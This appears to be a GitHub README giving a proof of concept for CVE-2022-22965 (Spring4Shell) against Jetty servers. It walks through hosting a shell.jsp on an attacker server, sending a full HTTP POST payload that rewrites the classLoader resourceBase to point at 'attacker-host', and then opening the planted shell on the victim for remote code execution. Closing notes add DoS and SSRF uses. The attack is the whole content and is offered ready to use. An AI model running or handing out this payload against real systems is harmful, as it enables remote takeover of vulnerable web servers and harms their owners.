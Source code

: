 # Poc-Spring4Shell-Jetty
Poc of CVE-2022-22965 (Spring4Shell) in Jetty serrver

1. Step 1
- Create a simple http server containing shell.jsp file in the hacker server
3. Step 2
- Send this payload to the victim server:
```
POST /exploit HTTP/1.1
Host: victim-host:8888
User-Agent: PetrusViet
Accept-Encoding: gzip, deflate 
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

class.module.classLoader.context.resourceBase=http://attacker-host:8000/&
```
4. Step 3
- Go to http://victim-host:8888/shell.jsp

Note: 

1. Outbound is required to RCE
2. If there is no outbound, the payload can be used to: dos, ssrf,...
3. Do not use this payload for real target, this may crash the web application.
